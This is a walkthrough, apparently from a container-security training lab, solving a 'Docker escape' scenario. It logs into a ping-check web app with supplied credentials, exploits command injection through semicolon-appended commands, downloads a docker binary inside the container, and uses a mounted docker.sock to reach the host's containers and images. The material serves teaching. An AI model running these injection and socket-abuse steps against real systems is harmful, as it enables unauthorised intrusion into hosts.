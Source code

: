 # Docker escape using Pod Volume Mounts to access the node and host systems - Solution

* Navigate to the application `http://connectivity-check.planetkesten.com`

* Login to the application using `username: sysadmin` and `password: superpowers`

![](images/app-login.png)

* Now try pinging `google.com`

![](images/ping-google.png)

* We can see that application is running the `ping` system command by looking at the output. Let's run some other system command by using a semicolon to separate two commands, as we know it's running in Linux system. For example, providing an input of `google.com; id` would trigger `ping -c 2 google.com;id` in the backend.

![](images/ping-google-id.png)

* Now that we have confirmed that the application is vulnerable to a command injection vulnerability. we can execute other commands and do other interesting stuff within this container.

* Let's explore the file system and other services. Start by looking inside the custom docker container.

```bash
;ls -l /custom/docker/
```

![](images/custom-docker-socket.png)

* Looks like the `docker.sock` is mounted from the host system as a volume mount

* Download the docker binary to access this socket and perform docker operations within the container

```bash
;wget https://download.docker.com/linux/static/stable/x86_64/docker-18.09.1.tgz -O /root/docker-18.09.1.tgz
```

![](images/download-docker.png)

* Now let's extract the binary to root system

```bash
;tar -xvzf /root/docker-18.09.1.tgz -C /root/
```

![](images/extract-docker-binary.png)

* Now, we can gain access to the host system by running the following docker commands

```bash
;/root/docker/docker -H unix:///custom/docker/docker.sock ps

;/root/docker/docker -H unix:///custom/docker/docker.sock images
```

![](images/host-docker-containers.png)

![](images/host-docker-images.png)